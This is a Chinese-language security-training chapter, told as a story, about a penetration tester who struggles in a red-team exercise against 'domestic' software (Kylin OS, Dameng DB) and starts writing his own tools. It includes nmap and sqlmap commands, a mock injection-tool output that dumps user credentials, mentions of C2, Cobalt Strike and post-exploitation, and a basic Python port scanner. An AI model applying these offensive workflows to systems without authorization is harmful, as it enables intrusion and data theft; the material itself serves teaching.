





# 第127章 脚本小子到工具开发大神（上）

> **难度等级：⭐⭐⭐ 进阶菜**
>
> **预计阅读时间：160分钟**
>
> **本章看点：脚本小子的尴尬日常、国产化环境实战翻车、从Python到Go的转型之路、开源工具的诞生、Cobalt Strike插件与BOF开发、C2框架入门**
>
> ::: tip 说明
> 本章中提到的技术细节，后续对应章节会有更深入的讲解。文中已标注"（详见第X章）"的，你可以翻到对应章节学习具体操作方法。
>
> 本章所有人物、公司、事件均已脱敏处理，**基于真实事件改编**。
> :::

---

## 📖 本章概述

::: tip 写在前面
这不是小说，这是一个真实发生过的故事。

为了保密，所有的人名、公司名、具体时间都已经做了脱敏处理。但成长经历、技术细节、心路历程，都是真实的。

看完这一章，你会明白：
- 会用工具和会造工具，完全是两个世界
- 国产化环境为什么会成为主流安全工具的"坟场"
- 一个脚本小子要经历多少毒打，才能长出"造工具"的脑子
- 从Python到Go，安全工具开发的选型逻辑
- 第一个开源项目从0到1000 Star要踩多少坑
- BOF、C2这些听着高大上的东西，到底是怎么回事
:::

---

## 🎯 学习目标

读完本章，你将了解：

- [x] 脚本小子和工具开发大神的本质区别是什么
- [x] 国产化环境（麒麟OS、达梦数据库）为什么会让主流工具失效
- [x] Python安全工具开发的基础（端口扫描器、目录爆破、子域名收集）
- [x] Go语言在安全工具开发中的优势和应用场景
- [x] 第一个开源安全工具从构思到发布Star破千的完整流程
- [x] Cobalt Strike插件开发、BOF（Beacon Object File）编写的基础知识
- [x] C2框架的基本架构和开发思路
- [x] 一个脚本小子逆袭为工具开发大神的心路历程

---

## 🏆 背景：一个"工具党"的自白

### 1.1 我是谁？

我叫阿杰，本科毕业，学的是信息安全管理。

听起来挺对口是吧？安全专业出身，应该挺厉害的。

但说实话，我大学四年，学了一堆理论，操作层面的东西，几乎是零。

> 你可能会问：信息安全专业不学渗透测试吗？不学安全工具开发吗？
>
> 唉，说多了都是泪。
>
> 大一学的是《信息安全导论》《密码学基础》，全是理论。
> 大二学的是《网络安全》《操作系统原理》，还是理论为主。
> 大三学的是《计算机病毒原理》《防火墙技术》，依然在背概念。
> 大四在准备考研，没考上，匆匆忙忙找工作。
>
> 大学四年，老师讲过SQL注入的原理，讲过DDoS攻击的分类，讲过RSA加密的数学公式。
>
> 但是，老师从来没教过我：怎么用sqlmap打一个真实的注入点？怎么用MSF拿一台机器的权限？怎么写一个端口扫描器？怎么开发一个C2框架？
>
> 这些"实操"的东西，学校基本不教。
>
> 我也都是工作之后，自己一点点摸索、请教、踩坑，才慢慢会的。

**我的真实水平，说白了就是个"工具党"：**

```
📊 我刚工作时的真实水平：

【会用工具】
- Nmap：能扫端口、能识别服务、能用各种脚本
- SQLMap：能跑注入、能脱库、能用各种tamper
- Burp Suite：能抓包、能改包、能用Intruder爆破
- Metasploit：能用各种exploit、payload、post模块
- Cobalt Strike：能上线、能执行命令、能横向移动
- dirsearch：能爆目录
- subfinder：能收子域名
- nuclei：能扫漏洞POC
- 哥斯拉/冰蝎：能管理Webshell
- mimikatz：能抓密码
- ......主流工具，我基本都会用

【不会的东西】
- 不会写代码（Python也就会print和requests）
- 不会开发工具（一个端口扫描器都写不出来）
- 不会改工具（看不懂工具的源码）
- 不会改POC（nuclei的模板都看不懂）
- 不会写EXP（只会用别人写好的）
- 不会改MSF模块（Ruby语法都不懂）
- 不会写CS插件（Java？那是啥？）
- 不会做免杀（只会用现成的工具）
- 不会搭C2基础设施（只会用别人搭好的）
- 不会逆向（IDA打开就是看天书）

一句话总结：
会用，不会造。
会用别人造的轮子，不会自己造轮子。
```

> 💡 **什么是"脚本小子"（Script Kiddie）？**
> 安全圈里有个词叫"Script Kiddie"，简称"skiddie"。
> 指的就是那种只会用别人写好的工具，但不懂原理、不会自己写工具的人。
> 通俗点说，就是"工具党"。
>
> 脚本小子不一定水平低（很多脚本小子用工具用得很溜），
> 但脚本小子的天花板很低——
> 因为他们永远是工具的"使用者"，而不是"创造者"。
>
> 一旦遇到工具不适应的场景，他们就抓瞎了。
>
> 嗯，我就是个典型的脚本小子。

### 1.2 我的工作

我毕业后，进了一家中等规模的安全公司，做渗透测试工程师。

公司有三十多号人，分几个组：
- 渗透测试组（我在这个组）
- 应急响应组
- 安全运维组
- 工具研发组（人最少，但都是大佬）

我的工作内容，主要是给客户做渗透测试、漏洞扫描、安全评估。

听起来挺正经的，但说白了，就是拿着一堆工具，去扫客户的系统，扫到漏洞就写报告，扫不到就接着扫。

```
📊 我的日常工作流程：

1. 接到任务 → 客户授权书、范围确认
2. 信息收集 → Nmap扫端口、subfinder收子域名、dirsearch爆目录
3. 漏洞扫描 → nuclei扫POC、AWVS扫Web、Nessus扫主机
4. 漏洞利用 → SQLMap打注入、MSF打漏洞、Burp手工测
5. 写报告 → 截图、描述、复现步骤、修复建议
6. 复测 → 客户修了之后，再测一遍

基本上就是这套流程，循环往复。
工具用得越来越溜，效率越来越高。
但说真的，技术含量，emmm，也就那样。
```

我在这家公司干了两年，工具用得是越来越6，在公司里也算是个"老手"了。

新来的同事遇到工具问题，都来问我。
"杰哥，这个sqlmap怎么绕WAF？"
"杰哥，这个CS怎么上线？"
"杰哥，这个nuclei模板怎么写？"

每次被叫"杰哥"，我心里还挺得意的。

> "嘿，我这也算是公司里的'技术骨干'了吧？"

但我没意识到，这种"得意"，其实是建立在沙子上的。

### 1.3 脚本小子的舒适区

那时候的我，活在一个很舒服的"舒适区"里。

**我的舒适区是什么样的？**

```
🛋️ 脚本小子的舒适区：

【工具依赖】
- 每次做项目，第一件事就是打开工具箱
- Nmap、sqlmap、MSF、CS、Burp、nuclei...
- 工具能干的事，我就不用脑子
- 工具干不了的事，我就说"这个做不了"

【思维定式】
- 遇到问题，第一反应是"有没有工具能搞定？"
- 而不是"这个问题本质是什么？怎么解决？"
- 工具报错了，第一反应是"换一个工具试试"
- 而不是"这个工具为什么报错？怎么修？"

【知识盲区】
- 工具背后的原理，一知半解
- 比如：Nmap的-sS和-sT到底差在哪？底层是怎么实现的？
- 比如：SQLMap的tamper是怎么工作的？SQL注入的本质是什么？
- 比如：MSF的payload是怎么生成的？reverse_tcp和bind_tcp的区别？
- 这些我都知道"怎么用"，但"为什么"就说不清了

【成长瓶颈】
- 工具用得再溜，水平也就那样了
- 因为工具是别人造的，你只是用户
- 用户的水平，永远超不过工具的设计者
- 想突破瓶颈，就得从"用户"变成"设计者"
- 但那时候的我，根本没意识到这一点
```

> 🤔 **你是不是也这样？**
> 如果你也满足以下几条，那你可能也是个"脚本小子"：
> 1. 离开工具，你啥也干不了
> 2. 工具报错，你只会换工具，不会修
> 3. 别人问你"这个工具的原理是什么"，你答不上来
> 4. 你从来没写过任何安全工具，哪怕是一个简单的脚本
> 5. 你看不懂工具的源码
> 6. 你觉得"会用工具就够了，没必要学编程"
>
> 如果中了3条以上，那恭喜你，你就是脚本小子。
>
> 没关系，我当年也是。
> 但故事的后半段，你会看到我是怎么走出来的。

---

## 🚀 舒服日子到头了：那次护网行动

### 2.1 护网行动开始

故事真正转折，发生在一次护网行动。

那年公司接到一个护网项目，给一家大型央企做红队攻击。

目标是一家**大型国有金融企业**，规模很大，防护等级很高。

公司很重视，派了我们最强的队伍：
- 队长：老周（10年红队经验，公司技术总监）
- Web组：3人（我是其中之一）
- 内网组：2人
- 情报组：2人
- 工具研发组：1人（叫"老吴"，公司唯一的工具研发大佬）

**图127-1 护网红队团队架构图**



护网前一周，我们开始准备。

情报组铺开OSINT收集，Web组准备武器库，内网组研究内网工具，老吴在搞自研工具和C2基础设施。

我呢？我忙着把我的"工具箱"过一遍：
- Nmap更新到最新版
- SQLMap更新到最新版
- MSF更新到最新版
- nuclei同步最新的POC库
- Burp插件全部更新
- Cobalt Strike配好团队服务器
- ...一堆工具，挨个过了一遍

> "嘿，工具都准备好了，这次护网，看我的！"

我当时信心满满，根本不知道，一场"毒打"正在等着我。

### 2.2 第一个不对劲：目标环境很"奇怪"

护网第一天，情报组先出成果。

老K（情报组组长）在群里发了第一批情报：

```
📊 护网D-Day 09:00 情报组战报（第一批）：

【资产情况】
- 主域名：xxfinance.com
- 子域名：186个
- 存活Web服务：52个
- 开放端口：300+

【重点关注】
- oa.xxfinance.com → OA系统
- mail.xxfinance.com → 邮件系统
- vpn.xxfinance.com → VPN入口
- portal.xxfinance.com → 统一门户

【特殊发现 ⚠️】
- 这家央企在做"国产化替代"
- 大量服务器用的是国产操作系统：麒麟OS、统信UOS
- 数据库用的是国产数据库：达梦数据库、人大金仓
- 中间件用的是国产中间件：东方通、宝兰德
- 浏览器要求用国产浏览器：奇安信浏览器、红莲花

【工具适配性预警 ⚠️】
- 主流工具可能存在兼容性问题
- 建议各组提前测试工具的可用性
```

看到最后两条，我心里"咯噔"一下。

> 国产化？麒麟OS？达梦数据库？
> 这啥玩意儿？
> 我以前打的都是Linux/Windows + MySQL/Oracle的环境，
> 这些主流工具，闭着眼睛都能用。
>
> 但国产OS、国产数据库... 这些工具还适配吗？

我赶紧打开Nmap，扫了一下情报组给的一个测试IP（目标暴露在公网的一台服务器）：

```bash
$ nmap -sV -p- 1.2.3.4
Starting Nmap 7.94 ( https://nmap.org )
Nmap scan report for 1.2.3.4
Host is up (0.045s latency).
Not shown: 65530 closed tcp ports (reset)
PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http      nginx 1.18.0
443/tcp  open  ssl/http  nginx 1.18.0
8080/tcp open  http      东方通TongWeb 7.0  ← 这是啥？
9090/tcp open  http      宝兰德应用服务器  ← 这又是啥？

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

看到结果，我有点傻眼了。

```
🤔 我的疑惑：

- TongWeb 7.0？这是啥？没听过啊
- 宝兰德应用服务器？也没听过
- Nmap识别出来了，但是...这俩中间件，有什么已知漏洞吗？
- 我去搜了一下：网上关于这俩中间件的漏洞资料，少得可怜
- MSF里有相关的exploit模块吗？我查了一下：没有
- nuclei里有相关的POC吗？我查了一下：没有
- GitHub上有相关的EXP吗？我搜了一下：基本没有

完了，这俩中间件，主流工具基本不支持。
```

我接着试了一下SQLMap（针对一个疑似有注入的接口）：

```bash
$ sqlmap -u "http://1.2.3.4/api/login" --data="username=admin&password=123" --batch

[INFO] testing connection to the target URL
[INFO] testing if the target parameter 'username' is dynamic
[INFO] heuristic (basic) test shows that the target parameter might be injectable
[INFO] testing for SQL injection on parameter 'username'
[INFO] testing 'AND boolean-based blind'
[CRITICAL] all tested parameters do not appear to be injectable
```

SQLMap说"不可注入"。

但我用手工测了一下，明明是有注入的（加了单引号报错，报错信息显示是达梦数据库）。

```
😡 我的反应：

- 我靠，SQLMap不认识达梦数据库啊！
- 达梦数据库的SQL语法和MySQL/Oracle不一样
- SQLMap的注入payload，是针对MySQL/Oracle/MSSQL/PostgreSQL设计的
- 达梦数据库？SQLMap：这是啥？不认识，跳过
- 完犊子，主力注入工具，废了
```

我又试了一下其他工具：

```
🔧 工具适配性测试结果：

✅ Nmap：基本能用（端口扫描、服务识别没问题，但部分脚本不兼容）
❌ SQLMap：达梦数据库不识别，注入功能基本废了
⚠️ nuclei：少数POC能用，但针对国产中间件的POC几乎没有
❌ MSF：针对国产软件的exploit模块，一个都没有
✅ Burp Suite：能用（这是抓包工具，跟环境无关）
⚠️ Cobalt Strike：能用，但是后渗透阶段有些工具不兼容麒麟OS
❌ 哥斯拉的某些类型Webshell：麒麟OS上跑不起来
⚠️ mimikatz：只能抓Windows，麒麟OS上完全没用
❌ BloodHound：依赖Windows域环境，麒麟OS的域控（如果有）不兼容

总结：主流工具，能用的不到一半。
```

> 💡 **为什么主流工具不适应国产化环境？**
> 这个问题很现实，我后面会详细讲（见2.4节）。
> 简单说就是：
> - 国外工具开发的时候，根本没考虑国产软件
> - 国产软件的协议、语法、行为，跟国外软件不一样
> - 工具的"指纹库""POC库""exploit库"，都没有国产软件的内容
> - 所以一遇到国产化环境，主流工具就"水土不服"

### 2.3 真正的毒打：同事用自研工具打得飞起

护网第二天，真正的毒打来了。

Web组的兄弟们都在抓瞎——主流工具不好使，效率低下。

我那边，一个疑似有SQL注入的接口，手工测了半天，确认有注入，但SQLMap跑不了。我只好手工注入，一个字符一个字符地猜，效率低得令人发指。

> "靠，手工注入太折磨人了。
> 一个字段要猜几十次，眼睛都看花了。
> 要是SQLMap能识别达梦数据库就好了..."

就在我抓瞎的时候，工具研发组的老吴，过来"救场"了。

老吴是公司唯一的工具研发大佬，平时话不多，但写代码跟开了挂似的。

他在群里发了一条消息：

```
👨‍💻 老吴在群里说：

"兄弟们，我注意到目标环境是国产化的。
我之前预研过国产化环境的工具适配，
连夜赶了几个小工具，大家试试看：

1. dameng_injector.py
   - 针对达梦数据库的SQL注入工具
   - 支持布尔盲注、时间盲注、报错注入
   - 支持达梦的SQL语法
   - 用法：python dameng_injector.py -u URL -p param

2. kylin_recon.py
   - 针对麒麟OS的信息收集工具
   - 能识别麒麟OS的版本、补丁情况
   - 能枚举麒麟OS上的本地用户、组、服务

3. tongweb_exploit.py
   - 针对东方通TongWeb中间件的利用工具
   - 包含几个已知漏洞的EXP
   - 支持后台弱口令、文件读取、文件上传

4. bl_exploit.py
   - 针对宝兰德中间件的利用工具
   - 类似上面

5. dameng_cmdshell.py
   - 达梦数据库的命令执行工具
   - 如果达梦的xp_cmdshell类似功能开启，可以执行命令

工具包我打包了，地址：\\\\内部服务器\\tools\\国产化\\v1.zip
大家先用着，有问题反馈给我，我再迭代。"
```

看到这条消息，我心里"咯噔"一下。

> 卧槽？连夜写了5个工具？
> 达梦数据库的注入工具？麒麟OS的信息收集？TongWeb的EXP？
> 这些...主流工具都没有啊！
> 老吴是怎么搞出来的？

我下载了老吴的工具包，试了一下。

```bash
# 用老吴的工具测那个SQL注入点
$ python dameng_injector.py -u "http://1.2.3.4/api/login" -p username --technique BEUST

[+] Target: http://1.2.3.4/api/login
[+] Parameter: username
[+] Detected: 达梦数据库 v8.1
[+] Injection type: Boolean-based blind + Error-based
[+] Testing injection...

[+] Current database: FINANCE_DB
[+] Current user: SA
[+] Counting tables in current database...
[+] Found 47 tables

[+] Dumping table: SYS_USERS (8 columns)
[+] Dumping 5/156 records...
[+] admin / 5f4dcc3b5aa765d61d8327deb882cf99 / 2024-01-15 10:23:11
[+] ...

[+] Done! Dumped 156 records in 18.3 seconds.
```

我看傻了。

> 这...这就跑出来了？
> 我手工注入搞了半天都没搞定的东西，
> 老吴的工具，18秒就跑完了？
> 而且，这工具是老吴"连夜"写出来的？

更让我崩溃的是后面。

老吴又发了一条消息：

```
👨‍💻 老吴：

"对了，达梦数据库的注入点，如果有DBA权限，
我那个工具支持自动调用xp_cmdshell类似的扩展函数，
可以尝试执行系统命令。
不过麒麟OS上，命令执行的限制跟Linux类似，
我已经在工具里做了适配。"

"还有，我针对麒麟OS写了一个后渗透工具，
能在麒麟OS上做信息收集、权限提升、持久化。
跟mimikatz那种Windows专用工具不一样，
这个是专门针对麒麟OS的。"

"老周（队长），要不要我把这些工具集成到CS里？
我给CS写了个插件，可以直接在CS里调用这些工具。"
```

队长老周回复：

```
👨‍💼 老周：

"老吴牛逼！赶紧集成到CS里！
咱们这次护网，就靠你的自研工具了。
主流工具不好使，你的自研工具就是我们的'杀手锏'。"
```

我看着群里的对话，心里五味杂陈。

```
😔 我当时的心情：

1. 震惊：老吴一夜之间写出了5个工具，每个都能用
2. 自卑：我连SQLMap都不会改，更别说自己写工具了
3. 羡慕：老吴这能力，是真的强，这才是"大佬"
4. 焦虑：我跟老吴的差距，不是一点半点，是天壤之别
5. 反思：我干了两年渗透，除了会用工具，我还会什么？
```

### 2.4 干瞪眼的一天

接下来的护网，对其他同事来说是"打怪升级"，对我来说就是"干瞪眼"。

```
📊 护网第2-5天，各组战果：

【老吴（工具研发组）】
- 写了5+个自研工具，全部针对国产化环境
- 集成到CS里，做了一个插件
- 写了一个针对麒麟OS的BOF
- 帮Web组打了3个点，帮内网组横向了5台机器
- 是这次护网的MVP

【Web组其他同事】
- 用老吴的工具，打了好几个点
- 用Burp手工测，找到几个逻辑漏洞
- 总体战果不错

【内网组】
- 用老吴的麒麟OS后渗透工具，在内网横着走
- 拿下了8台麒麟OS服务器
- 摸到了域控

【情报组】
- 正常收集情报，撞库，社工
- 提供了大量高价值情报

【我（阿杰）】
- 用Nmap扫了几个端口
- 用Burp抓了几个包
- 手工注入了一个点（耗时2小时，效率感人）
- 试图用MSF打一个漏洞，失败（不兼容麒麟OS）
- 试图用mimikatz抓密码，失败（麒麟OS不是Windows）
- 试图用哥斯拉连Webshell，失败（Webshell类型不兼容）
- ...基本就是打杂，干瞪眼
```

护网第五天晚上，复盘会议。

队长老周点评各组表现：

```
👨‍💼 老周复盘：

"这次护网，最大的功臣是老吴。
没有老吴的自研工具，我们在国产化环境里，根本走不动。
老吴的工具，是我们的核心竞争力。

其他组也都不错，Web组打了3个点，内网组拿下了8台服务器，情报组提供了关键情报。

但是，我注意到一个问题：
我们组里，有些人这次护网，贡献...比较有限。
比如阿杰，这几天你做了什么？"

（我低着头，脸红到了脖子根）

"阿杰，我不是批评你。
我是想说，只会用工具，不会造工具，是有局限的。
这次是国产化环境，下次可能是别的特殊环境。
如果你只会用现成工具，遇到特殊环境，你就废了。

你得学着'造工具'，而不是只会'用工具'。
这才是真正的'红队工程师'，而不是'工具党'。"
```

那天晚上，我失眠了。

```
🌑 那天晚上，我躺在床上，翻来覆去睡不着：

- 老周说得对，我就是个"工具党"
- 我干了两年渗透，离开工具我啥也不是
- 老吴能一夜之间写出5个工具，我能写出什么？啥也写不出
- 我跟老吴的差距，不是"用工具的熟练度"，而是"造工具的能力"
- 而这个能力，本质上就是"编程能力"
- 我不会编程，所以我只能"用"，不能"造"

"不行，我得学编程。
我得从'工具党'变成'工具开发'。
不然我这一辈子，就是个脚本小子。"

那一晚，我做了一个决定：
学编程，从零开始，死磕到底。
```

### 2.5 国产化环境为什么这么"坑"？

在讲我学编程的故事之前，我先给大家科普一下，**国产化环境为什么会让主流安全工具失效**。

这是这次护网给我的最大"教训"之一，也是我后来研究工具开发的动力之一。

```
🔍 国产化环境"坑"在哪里？

【坑1：操作系统层面】
- 主流工具的渗透测试支持：Windows > Linux > macOS > 其他
- 国产OS（麒麟、统信UOS、欧拉、龙蜥）虽然底层是Linux内核
- 但是：
  * 文件系统路径有差异（比如配置文件位置不同）
  * 服务管理有差异（部分用systemd，部分用自己的）
  * 包管理有差异（部分用rpm，部分用deb，部分用自己的）
  * 内核版本和补丁情况不同
  * 国产OS的"特征"主流工具不识别

- 后果：
  * Nmap的指纹库不识别国产OS
  * LinPEAS之类的提权脚本，部分功能不兼容
  * 一些后渗透工具（基于Linux的），在国产OS上行为异常

【坑2：数据库层面】
- 主流工具支持的数据库：MySQL、Oracle、MSSQL、PostgreSQL、SQLite
- 国产数据库（达梦、人大金仓、GBase、OceanBase、TiDB）
  * 达梦：语法类似Oracle，但有很多差异
  * 人大金仓：基于PostgreSQL，但有定制
  * GBase：自己一套语法
  * OceanBase：兼容MySQL模式，但有差异
  * TiDB：兼容MySQL，基本没问题

- 后果：
  * SQLMap不识别达梦、人大金仓、GBase
  * 即使TiDB/OceanBase兼容MySQL，SQLMap也可能误判
  * 注入payload的语法不通用
  * 数据库的内置函数、系统表都不一样

【坑3：中间件层面】
- 主流工具支持的中间件：Tomcat、WebLogic、Jboss、IIS、Nginx
- 国产中间件（东方通TongWeb、宝兰德、金蝶Apusic、中创InforSuite）
  * 这些中间件，主流工具基本没有POC
  * 漏洞资料少，公开EXP几乎没有
  * 指纹特征主流工具不识别

- 后果：
  * nuclei、xray等扫描器，扫不出国产中间件的漏洞
  * MSF里没有相关exploit模块
  * 即使知道有漏洞，也没有现成的EXP可用

【坑4：办公软件层面】
- 国产化环境常用的办公软件：WPS、永中Office、福昕PDF
- 这些软件的历史漏洞，主流工具基本没有覆盖
- 钓鱼攻击的时候，假设目标用的是WPS，你用针对MS Office的宏文档，可能不奏效

【坑5：浏览器层面】
- 国产化环境常用浏览器：奇安信浏览器、红莲花、星愿浏览器
- 这些浏览器大部分基于Chromium，但版本旧、补丁慢
- 针对Chromium漏洞的利用，可能有效，但工具适配要做
```

> 💡 **这就是为什么需要"自研工具"**
>
> 主流安全工具，绝大部分是国外开发的，针对的是国外软件环境。
> 国外开发的时候，根本不会考虑国产软件的适配。
>
> 而国内的护网、红队行动，越来越多地遇到国产化环境。
> 这时候，谁有自研工具，谁就能打；谁只会用主流工具，谁就抓瞎。
>
> 这次护网，让我深刻地认识到：
> **"会用工具"是基础，"会造工具"才是核心竞争力。**
>
> 而要"造工具"，就必须会编程。
> 这就是我下决心学编程的根本原因。

**图127-2 主流安全工具在国产化环境下的失效图谱**



---

## 💪 从零开始学编程

### 3.1 下定决心

护网结束后的那个周末，我把自己关在家里，认真地想了想自己的职业规划。

```
🤔 我的反思：

【现状】
- 工作2年，渗透测试工程师
- 工具用得很溜，但不会写代码
- 这次护网，被国产化环境"教育"了
- 跟老吴的差距，是数量级的差距

【问题】
- 不会编程 = 只能"用工具"，不能"造工具"
- 不能"造工具" = 遇到特殊环境就抓瞎
- 长此以往，我的职业天花板就到这里了

【选择】
- 继续当"工具党"？ → 5年后还是这个样子，可能被淘汰
- 学编程，转"工具开发"？ → 苦几年，但天花板会高很多

【决定】
- 学编程，死磕到底
- 目标：3年内，从"脚本小子"变成"工具开发"
- 最终目标：能像老吴一样，一夜写出5个工具
```

说干就干。

周一上班，我找老吴聊了聊。

```
👨‍💻 我：吴哥，我想学编程，搞工具开发，你能不能带带我？

👨‍💼 老吴：（看了我一眼）想好了？
   工具开发这条路，可不好走。
   得学编程语言、数据结构、算法、网络协议、操作系统...
   而且安全工具开发，比一般的开发更难，因为要懂安全。

👨‍💻 我：想好了。这次护网，我受刺激了。
   我不想一辈子当"工具党"。

👨‍💼 老吴：行，那我跟你说说怎么学。
   你先从Python开始，Python简单，入门快。
   安全工具开发，Python是基础。
   等Python熟练了，再学Go，Go是做高性能工具的首选。
   C语言和汇编，那是后面做底层工具（免杀、Shellcode）才需要的，先不急。

👨‍💻 我：那我应该学多久？

👨‍💼 老吴：看你投入多少时间。
   你要是每天能投入3-4小时，半年能入门，1年能写出像样的工具。
   要是想达到"一夜写5个工具"的水平，至少3-5年。
   不过，入门之后，进步会越来越快。

👨‍💻 我：好，那我先学Python。有什么推荐的学习资料吗？

👨‍💼 老吴：
   - Python基础：《Python编程：从入门到实践》
   - 安全工具开发：《Python黑帽子：黑客与渗透测试编程之道》
   - 网上找一些开源的安全工具源码，读别人的代码
   - 多动手，不要光看，要写代码

👨‍💻 我：好，谢谢吴哥！

👨‍💼 老吴：还有一点，学编程，不要光看书，要结合实际项目。
   你想，你做了两年渗透，对安全工具的需求很了解。
   那你就从"自己用得上的工具"开始写。
   比如，你可以先写一个简单的端口扫描器，再写一个目录爆破工具，再写一个子域名收集工具。
   这些工具虽然已经有现成的，但自己写一遍，能学到很多东西。
   "造轮子"是最好的学习方式。
```

> 💡 **老吴给我的学习建议，我总结一下：**
> 1. 从Python开始（简单、入门快、安全工具开发主流语言）
> 2. Python熟练后学Go（高性能工具的首选）
> 3. C/汇编后面再说（做底层工具才需要）
> 4. 不要光看书，要动手写代码
> 5. 从"自己用得上的工具"开始写（端口扫描器、目录爆破、子域名收集）
> 6. "造轮子"是最好的学习方式
> 7. 读别人的开源代码，学习别人的写法

### 3.2 学Python：从Hello World开始

说学就学。

我买了老吴推荐的两本书，下班后就开始啃。

```
📅 我的学习计划：

【第1个月：Python基础】
- 语法基础：变量、数据类型、流程控制、函数
- 数据结构：列表、字典、元组、集合
- 面向对象：类、继承、多态
- 异常处理、文件操作
- 模块和包
- 目标：能看懂别人的Python代码，能写简单的小脚本

【第2个月：Python进阶】
- 网络编程：socket、requests、urllib
- 多线程/多进程/协程
- 正则表达式
- 数据库操作
- 第三方库：requests、beautifulsoup、lxml、paramiko...
- 目标：能写跟网络相关的工具

【第3个月：安全工具开发入门】
- 写第一个端口扫描器
- 写第一个目录爆破工具
- 写第一个子域名收集工具
- 学习开源安全工具的源码
- 目标：能写出"能用的"安全工具
```

刚开始学Python，那叫一个痛苦。

```
😭 学Python第一周的崩溃瞬间：

1. 装环境装了一晚上
   - Python版本搞不清（2还是3？当然是3）
   - pip安装各种问题
   - IDE选哪个？（最后选了VS Code）
   - 虚拟环境是啥？为啥要建虚拟环境？

2. 缩进报错搞了一晚上
   - Python用缩进表示代码块，我老忘记缩进
   - Tab和空格混用，报错
   - 一个缩进错误，找了一晚上

3. 字符串编码搞了一晚上
   - ASCII、Unicode、UTF-8是啥关系？
   - 为什么print中文会报错？
   - encode和decode怎么用？

4. 列表和字典搞混
   - 列表是[]，字典是{}，我老搞混
   - 切片操作搞不清楚
   - 嵌套的数据结构，访问起来晕头转向

5. 函数参数搞不清
   - 位置参数、关键字参数、默认参数、可变参数... 一堆概念
   - return和print的区别？
   - 作用域是啥？全局变量和局部变量？

...一堆基础问题，每一个都让我抓耳挠腮。
```

> 🤔 **你是不是也这样？**
> 如果你也刚开始学编程，遇到这些问题，别灰心。
> 这是必经之路。
> 我当时也是这样，一个一个坑踩过来。
> 坚持下去，过了基础这一关，后面会越来越顺。

学了一个月，我大概能把Python的基础语法搞明白了。

来，我给你看一个我当时的"作品"——我的第一个Python程序（除了Hello World之外）：

```python
# 我的第一个Python"作品"：一个简单的端口扫描器 v0.1
# 阿杰写于学Python第3周

import socket

def scan_port(ip, port):
    """扫描指定IP的指定端口"""
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(1)
        result = s.connect_ex((ip, port))
        if result == 0:
            print(f"[+] {ip}:{port} is OPEN")
            return True
        else:
            return False
        s.close()
    except Exception as e:
        return False

def main():
    target_ip = input("请输入目标IP：")
    print(f"[*] 开始扫描 {target_ip}")

    # 扫描常见的100个端口
    common_ports = [21, 22, 23, 25, 53, 80, 110, 135, 139, 143,
                    443, 445, 993, 995, 1433, 1521, 3306, 3389,
                    5432, 5900, 6379, 8080, 8443, 9090, 27017]

    for port in common_ports:
        scan_port(target_ip, port)

    print("[*] 扫描完成")

if __name__ == "__main__":
    main()
```

你看这代码，是不是很挫？

```
🤦 这个"作品"的问题：

1. 性能极差：单线程，一个端口一个端口扫，慢得要死
2. 没有错误处理：网络异常会导致程序崩溃
3. 没有参数解析：交互式输入，不能用命令行参数
4. 没有结果保存：扫完就完了，没有保存到文件
5. 端口列表太短：只扫25个端口
6. 没有服务识别：只判断open/close，不识别服务
7. 没有进度显示：扫了大半天，不知道进度
8. socket资源没正确释放：s.close()在return后面，永远执行不到（bug！）
9. ...问题一大堆
```

但是！这是我自己写的第一个工具！

虽然很挫，但是是我"造"的！

当我运行它，看到屏幕上打印出`[+] 127.0.0.1:80 is OPEN`的时候，那种成就感，跟用Nmap扫出来完全不一样。

> "我靠，我自己写的工具，能用了！
> 虽然很挫，但是是我'造'的！
> 这感觉，跟用别人的工具，完全不一样！"

那一刻，我突然理解了老吴为什么那么喜欢写工具——**创造的快感，是使用永远给不了的**。

### 3.3 第一个"像样"的工具：多线程端口扫描器

学Python第二个月，我开始学多线程。

老吴跟我说：

```
👨‍💼 老吴：
"端口扫描器，单线程是没用的。
 你那个v0.1，扫25个端口要25秒，太慢了。
 真实的扫描器，要扫65535个端口，单线程得扫到天荒地老。
 你得用多线程，或者异步。
 Python里，多线程用threading，异步用asyncio。
